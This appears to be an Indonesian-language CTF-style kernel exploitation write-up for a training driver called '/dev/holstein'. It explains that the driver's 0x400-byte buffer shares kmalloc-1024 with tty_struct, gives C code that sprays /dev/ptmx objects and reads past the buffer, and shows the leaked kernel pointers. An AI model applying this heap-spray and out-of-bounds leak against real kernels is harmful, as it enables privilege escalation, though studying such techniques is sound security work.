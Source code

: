 Ukuran buffer yang dialokasikan pada ```g_buf``` adalah 0x400 yang artinya akan ditempatkan di kmalloc-1024, periksa ```/proc/slabinfo``` untuk mengetahui lebih lanjut. untuk memanfaatkan hal ini, kita perlu objek kernel lain yang ditempatkan pada wadah kmalloc-1024 juga. kandidat yang cocok adalah objek ```tty_struct``` yang anda bisa periksa <a href="https://elixir.bootlin.com/linux/v5.15/source/include/linux/tty.h#L143">tty.h</a>, kita bisa menggunakan ```open(/dev/ptmx/)``` untuk mengalokasikan ```tts_struct```.

---

Exploiting
---

pertama, saya menyemprotkan banyak ```ptmx``` setelah membuka perangkat, lalu melakukan pembacaan sembarang dengan kode berikut:

```c
...
void leak()
{
     int fd_spray[100];
    
    for(int i=0; i < 50;i++){
		fd_spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
		if(fd_spray[i]==-1){
			perror("/dev/ptmx");
			exit(EXIT_FAILURE);
		}
	}
	global_fd = open("/dev/holstein",O_RDWR);
	for(int i=50; i < 100;i++){
		fd_spray[i] = open("/dev/ptmx", O_RDONLY|O_NOCTTY);
		if(fd_spray[i]==-1){
			perror("/dev/ptmx");
			exit(EXIT_FAILURE);
		}
	}

    memset(buff,'A', 0x500);
    read(global_fd,buff,0x500);

    for(int i=0; i < 0x500; i++){
        printf("0x%x = 0x%016lx\n" ,i, *(unsigned long*)(buff + i));
    }    

}
...

```
dan ini hasil yang didapat, periksa pada output yang dihasilkan dari perulangan:

```bash
...
0x400 = 0x0000000100005401 
0x418 = 0xffffffff81c38880 -> tty_ops
0x438 = 0xffff888003102438 -> g_buf

...
```
